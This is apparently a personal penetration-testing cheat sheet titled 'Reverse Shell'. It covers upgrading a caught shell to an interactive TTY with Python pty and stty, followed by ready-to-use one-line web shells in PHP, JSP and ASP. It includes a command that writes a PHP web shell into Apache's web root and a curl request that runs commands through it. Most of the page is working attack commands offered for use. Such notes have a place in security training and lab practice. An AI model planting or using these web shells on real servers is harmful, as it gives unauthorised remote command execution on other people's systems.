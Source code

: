 ```yaml
---
id: Reverse Shell
aliases: ["Revshell"]
tags:
  - Webapp/Exploitation/Reverse-shell
---
```


# Reverse Shell

<!-- Bash {{{-->
## Bash

```sh
script /dev/null -c bash
SHELL=/bin/bash script -q /dev/null
```

Upgrade to an interactive shell
```sh
export TERM=xterm
```

^Z (CTRL+Z)

```sh
stty raw -echo; fg
```
<!-- }}} -->

<!-- Python {{{-->
## Python

Check if Python is installed on the server

```sh
which python
```

```sh
which python3
```

### Interactive shell

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

- `c`: Run the following Python code in the command line
- `import pty`: Import the pseudo-terminal module
- `pty.spawn("/bin/bash")`: Spawn a new process and connect it to the
  pseudo-terminal
<!-- }}} -->

<!-- Upgrading TTY {{{-->
## Upgrading TTY

Map the TTY with the remote TTY

1. Hit `Ctrl + Z` to background the shell ang get back to the local terminal

```sh
^Z
```

2. Bring back the `netcat` shell to the foreground

```sh
stty raw -echo; fg
```

3. Hit `Enter` (or input `reset` and hit `Enter`)

4. Set shell variables to make the terminal full screen


```sh
# Show the `TERM` variable
export TERM=xterm
xterm-256color

# Show the values for `rows` and `columns`
stty size
67 318
```

Set the variables in the `netcat` shell

```sh
# Set `TERM`
export TERM=xterm-256color

# Set rows and columns
stty rows 67 columns 318
```
<!-- }}} -->

# Web Shell

A Web Shell accepts the command through HTTP request parameters
(e.g. `GET`, `POST`) and prints the output to the webpage.

## Examples

PHP

```php
<?php system($_REQUEST["cmd"]); ?>
```

JSP

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
ASP


```asp
<% eval request("cmd") %>
```

## Uploading a Web Shell

The web shell should be placed into the remote host's web root (through a
vulnerability or upload feature) and executed through the web browser.

| Web Server | Default Webroot          |
| ---------- | ------------------------ |
| Apache     | `/var/www/html/`         |
| Nginx      | `/usr/local/nginx/html/` |
| IIS        | `c:\inetpub\wwwroot\`    |
| XAMPP      | `C:\xampp\htdocs\`       |

The following `bash` command writes the web shell to a Linux machine running
Apache.

```sh
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Accessing Web Shell

The web shell may be accessed via a web browser or by using `cURL`.

```sh
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A web shell would bypass any firewall restriction as it will not open a new
connection on a port bup use `80`or `443`.
